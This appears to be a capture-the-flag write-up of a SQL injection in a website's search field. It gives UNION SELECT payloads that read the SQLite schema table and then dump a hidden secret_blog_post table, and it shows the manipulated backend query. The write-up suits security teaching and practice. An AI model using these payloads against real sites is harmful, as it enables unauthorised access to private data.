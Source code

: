 # Challenge: Wow,_it_can't_be_more_juicy_than_this! Writeup

- **Vulnerability**: SQL Injection
  - _Eg, Exploiting the search feature to execute unauthorized SQL commands, including accessing database schema information and hidden data._
- **Where**: The vulnerability is present in the search input field of the website.
  - _Eg, A search box on a blog or content site that queries the database for user-supplied terms._
- **Impact**: Discovery of database schema and unauthorized access to hidden or sensitive data.
  - _Eg, Accessing the `sqlite_master` table to reveal database structure and subsequently accessing a secret blog post table, potentially exposing confidential information._

- **NOTE**: This vulnerability occurs due to the website's failure to properly sanitize user input in the search functionality, allowing the execution of arbitrary SQL commands.

## Steps to reproduce

### Discovering Database Structure

1. Navigate to the search feature on the website.
2. In the search input, enter the SQL injection payload to access database schema: `' UNION SELECT name, tbl_name, sql FROM sqlite_master --`
3. Submit the search.
4. The backend SQL query, originally meant to search blog posts, is manipulated:

    ```sql
    SELECT id, title, content FROM blog_post WHERE title LIKE '%' ' UNION SELECT name, tbl_name, sql FROM sqlite_master -- '%' OR content LIKE '%' ' UNION SELECT name, tbl_name, sql FROM sqlite_master -- '%'
    ```

    The search results now include entries from the `sqlite_master` table, revealing the structure of the database, including table names and their creation SQL.

### Accessing Hidden Data

6. After discovering the `secret_blog_post` table from the `sqlite_master` information, use a similar injection targeting this table.
7. Enter the payload: `' UNION SELECT id, title, content FROM secret_blog_post --`
8. This reveals entries from the `secret_blog_post` table, leaking potentially sensitive or hidden information.
